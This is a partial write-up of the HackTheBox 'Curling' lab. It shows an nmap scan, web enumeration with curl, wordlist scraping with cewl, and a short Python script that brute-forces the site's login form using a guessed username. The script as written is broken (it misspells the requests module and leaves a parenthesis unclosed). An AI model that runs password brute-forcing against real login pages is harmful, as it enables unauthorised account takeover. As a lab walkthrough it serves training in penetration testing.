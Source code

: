 # Curling

Back on the HackTheBox ting again. 

So we start this box as we normally do, with an Nmap scan so we know what we're up against.

```
nmap -sC -sV --top-ports 10000 -vvvv -n 10.10.10.150 -oA Curling
```

Let's check the results.

```
Host: 10.10.10.150 ()   
Ports: 22/open/tcp//ssh//OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)/
80/open/tcp//http//Apache httpd 2.4.29 ((Ubuntu))/      
Ignored State: closed (8304)
```

OK, so we have an Apache server and SSH, let's check out .

```
curl -X GET http://10.10.10.150
```

OK, so we have a login form, some blog type posts, and what appears to be a Joomla installation (so shells soon?(tm))

There's a pretty serious hint as the title of the page that we should probably pay attention to. 

![image](images/curling01.png)

So I guess we want to use Cewl to scrape this page for credentials. (it's already installed into Kali) 

Cool, lets do that.

```
cewl http://10.10.10.150/ > cewl_list
```

Now we can use the list that was generated as part of a Python script or an Intruder payload.

Checking out the list there are some strings that look like usernames, that'll save us some time bruteforcing this password.

```
import requests

with open("cewl_list") as wordlist:
    for word in wordlist:
        req = request.post("http://10.10.10.150/", data={"username":"Floris", "password": word }
        status = req.status_code
        
```

Let's let that run for a while, and go back to the site and see if we can't just figure out the username/password by looking around (we already picked up one "username" from one of the blog posts that we're using in the above script.
